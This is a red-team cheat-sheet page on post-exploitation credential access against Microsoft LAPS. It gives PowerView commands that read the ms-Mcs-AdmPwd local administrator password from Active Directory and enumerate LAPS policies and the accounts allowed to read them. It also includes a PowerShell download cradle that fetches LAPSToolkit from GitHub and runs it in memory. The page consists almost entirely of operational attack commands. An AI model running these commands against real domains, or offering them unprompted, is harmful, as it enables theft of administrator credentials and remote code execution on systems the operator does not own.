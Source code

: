 # Scripts

## PowerSploit

```
PS C:\> Import-Module .\PowerView.ps1
```

Retrieve password.

```
PS C:\> Get-DomainObject -Identity <IP> -Properties ms-Mcs-AdmPwd
```

Find GPOs that have `LAPS` or some other descriptive term in the name.

```
PS C:\> Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | Select-Object DisplayName, Name, GPCFileSysPath | Format-List
```

Search computer objects where the `ms-Mcs-AdmPwdExpirationTime` property is not null (any Domain User can read this property).

```
PS C:\> Get-DomainObject -SearchBase "LDAP://[DC=<subdomain>,]DC=<domain>,DC=<tld>" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

```powershell
Get-NetOU -FullData | Get-ObjectAcl -ResolveGUIDs | Where-Object {
($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') 
}
```

## LAPSToolkit

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/leoloobeek/LAPSToolkit/refs/heads/master/LAPSToolkit.ps1')
```

```
PS C:\> Get-LAPSComputers
```

```
PS C:\> Find-LAPSDelegatedGroups
```

```
PS C:\> Find-AdmPwdExtendedRights
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - Credential Access and Dumping/Windows/Active Directory/LAPS/Manual/Living off the Land]]

### Github

- [leoloobeek: LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)